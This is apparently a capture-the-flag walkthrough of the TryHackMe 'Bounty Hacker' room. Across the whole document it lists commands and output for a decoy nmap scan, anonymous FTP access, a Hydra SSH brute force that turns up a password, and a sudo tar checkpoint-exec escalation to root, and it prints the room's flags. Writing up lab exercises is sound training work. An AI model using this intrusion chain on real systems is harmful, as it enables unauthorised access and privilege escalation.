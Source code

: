 # Bounty-Hacker

## 🚀 Step by step, ooh, baby

### 📋 Pré-requisitos
- Nmap 7.93 (https://nmap.org)
- Hydra v9.4 (https://github.com/vanhauser-thc/thc-hydra)

### 🔧 Execução
```$ nmap -D RND:20 --open -sS -p- <ip>``` <br />
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:48 -03
Nmap scan report for <ip>
Host is up (0.23s latency).
Not shown: 56227 filtered tcp ports (no-response), 9305 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

```$ nmap --open -sV -p21,22,80 <ip>```<br />
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:58 -03
Nmap scan report for <ip>
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.96 seconds

```$ ftp -p 21 <ip>```<br />
anonymous

```$ ls -lha```<br />
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt

```$ get locks.txt```<br />
```$ get task.txt```<br />

```$ cat task.txt```<br />
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```$ cat locks.txt```<br />
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
...

```$ hydra -l lin -P locks.txt <ip> ssh```<br />
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-14 22:04:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://<ip>:22/
[22][ssh] host: <ip>   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-14 22:04:40

```$ ssh -p 22 lin@<ip>```<br />
RedDr4gonSynd1cat3

```$ ls -lha```<br />
total 12K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..
-rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt

```$ cat user.txt```<br />
THM{CR1M3_SyNd1C4T3}

```$ sudo -l```<br />
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```<br />
tar: Removing leading `/' from member names

```$ whoami```<br />
root

```$ ls -lha /root```<br />
total 40K
drwx------  5 root root 4.0K Jun  7  2020 .
drwxr-xr-x 24 root root 4.0K Jun  6  2020 ..
-rw-------  1 root root 2.7K Jun  7  2020 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Feb 26  2019 .cache
drwxr-xr-x  2 root root 4.0K Jun  7  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7  2020 root.txt
-rw-r--r--  1 root root   66 Jun  7  2020 .selected_editor
drwx------  2 root root 4.0K Jun  7  2020 .ssh

```$ cat /root/root.txt```<br />
THM{80UN7Y_h4cK3r}

## 📌 Referências:
- https://tryhackme.com/room/cowboyhacker
- https://gtfobins.github.io/gtfobins/tar/
